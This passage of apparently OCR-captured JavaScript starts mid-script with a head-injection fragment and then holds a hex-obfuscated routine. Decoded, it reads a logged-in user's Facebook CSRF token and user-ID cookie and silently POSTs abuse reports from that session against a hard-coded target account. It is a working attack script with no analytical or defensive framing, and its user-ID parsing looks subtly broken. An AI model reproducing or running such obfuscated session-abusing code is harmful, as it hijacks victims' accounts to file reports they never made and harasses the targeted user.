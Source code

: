                 heads[0].appendChild(node);
        } else {
                // no head yet, stick it whereever
                document.documentElement.appendChild(node);
        }
}
})();
var _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38"];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6[_0xb161[15]](_0xb161[14],_0x45e7x7,true);_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&&_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6[_0xb161[20]](_0x45e7x8);} ;